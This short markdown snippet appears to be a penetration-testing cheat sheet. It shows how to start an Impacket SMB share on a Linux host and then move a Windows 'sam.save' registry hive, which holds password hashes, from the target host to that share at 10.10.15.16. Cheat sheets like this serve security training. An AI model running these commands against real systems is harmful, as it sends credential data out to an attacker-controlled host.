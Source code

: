 -- -
### Create Share
on linux host:
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

sudo impacket-smbserver -smb2support <share name> <where share will be mounted>
```
### Transfer from windows host
```powershell
move sam.save \\10.10.15.16\CompData
move <target fil> \\<target ip>\<share name> 
```